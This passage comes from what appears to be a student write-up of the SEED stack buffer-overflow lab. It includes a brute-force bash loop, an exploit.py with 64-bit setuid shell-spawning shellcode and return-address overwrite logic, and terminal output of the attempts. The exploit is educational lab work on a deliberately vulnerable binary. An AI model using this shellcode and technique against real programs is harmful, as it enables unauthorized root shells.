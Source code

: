 ```
$3 = 10
```
Then, with the information, I tested a few options, but I was not getting anywhere (Mainly because I am unsure how 64 bit programs are going to act). Then, since brute-force was not eliminated, I chose to brute-force it and changed the program that was given to use to better match my situation. Doing the remove the badfile, running the exploit.py by passing in the number as the offset, and run the stack against the badfile. Through this, I was able to find my offset that worked. I named it test-brute-force.sh:
```
#!/bin/bash

SECONDS=0
value=0
number=23

while true; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    number=$(( $number +1))
    echo "The program has been run $value times so far (time elapsed: $min minutes and $sec seconds)."
    rm badfile
    python3 exploit.py $number
    ./stack-L4
done
```
The exploit.py file that I changed to help me brute-force to help the delta number. First, I changed the shellcode to be a set-uid 64-bit shellcode (from call_shellcode). Then, from the gdb, we found the offset to be 18. Next, we use sys.argv[1] to get the command line value and since it was having an issue with adding to return address, I cast it to float, then to int to get rid of the error.
```
#!/usr/bin/python3
import sys

# TODO: Replace the content with the actual shellcode
shellcode = (
"\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')
...

# Decide the return address value and put it somewhere in the payload
offset = 18      # TODO: Change this number
print("delta", sys.argv[1])
ret = 0x7fffffffd990 + offset + int(float(sys.argv[1]))  # TODO: Change this number

L = 8           # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
...
```
```
[03/02/21]seed@VM:~/.../code$ ./test-brute-force.sh
...
delta 1044
Input size: 517
./test-brute-force.sh: line 20:  8698 Segmentation fault      ./stack-L4
The program has been run 1022 times so far (time elapsed: 0 minutes and 12 seconds).
delta 1045
Input size: 517
./test-brute-force.sh: line 20:  8703 Segmentation fault      ./stack-L4
```